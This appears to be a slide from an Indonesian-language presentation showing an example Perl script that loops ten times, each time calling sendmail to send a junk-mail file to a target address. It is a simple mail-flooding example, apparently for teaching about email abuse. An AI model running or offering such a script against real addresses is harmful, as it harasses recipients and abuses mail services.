

Contoh Skrip
#! /usr/local/bin/perl

for ($i=0; $i < 10 ; $i++) {
system(“/usr/sbin/sendmail target@somedomain.com < junkmail.txt”);
}